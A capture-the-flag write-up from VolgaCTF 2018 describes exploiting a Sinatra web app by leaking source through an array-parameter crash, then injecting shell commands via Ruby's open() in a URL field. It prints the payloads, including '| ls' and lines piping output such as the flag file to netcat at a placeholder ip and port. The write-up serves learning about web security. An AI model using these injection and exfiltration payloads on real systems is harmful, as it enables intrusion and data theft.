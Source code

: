```yaml
---
title: volgactf 2018 - Old Government
author: onionpsy
categories:
  - hacking
---
```


We started by checking the link on the header and we saw that an `id` is passed in the url with the id of the page: `page?id=36`. After some tries we found that we could crash the application by passing id as an array, like that : `page?id[]=36`.

```ruby
NoMethodError at /page
undefined method `to_i' for ["36"]:Array Did you mean? to_s to_a to_h
```

It gave us info that the website is powered by Sinatra, a ruby web framework.

On the backtrace, we could see part of the code.

### articles.erb
```ruby
case @id.to_i

    when 2
      erb :page2
    when 5
      erb :page5
    when 18
      erb :page18
    when 23
```

### app.rb
```ruby
        headers "Server" => ""
      	erb :index
      end

      get '/page' do
      	@id = params[:id]
        headers "Server" => ""

      	erb :articles

      end

      post '/page' do
      	@id = params[:id]
        headers "Server" => ""
      	erb :articles
      end
```

After a few tries on the pages, we found that the page with the id 18 has a form with 2 fields. One is waiting a valid url (`site`) and the other is an optional description (`description`). We used once again the `page?id[]=36` trick but through the POST this time. This gave us more informations about the code. The most interesting one is this function:

```ruby
  def siteValidator(site)
    begin
  	  r = open(site, :allow_redirections => :all)
	(...)
```

Judging by the name it seems that this one is ran on the site field of the post query. Judging by [OWASP - Ruby on Rails Cheatsheet](https://www.owasp.org/index.php/Ruby_on_Rails_Cheatsheet), `open` can be actually used to inject command.
After some tries we can see that it works:
 * `site=| ls` show `validated`
 * `site=| aaaa` show `error`

But because we don't have any sort of output, we decided to create a reverse shell using netcat (present on the server) using this syntax: `site=| <command> | netcat <ip> <port>`

After some directory listing, we saw the flag file:
`site=| cat ../../flag | netcat <ip> <port>`

Done!
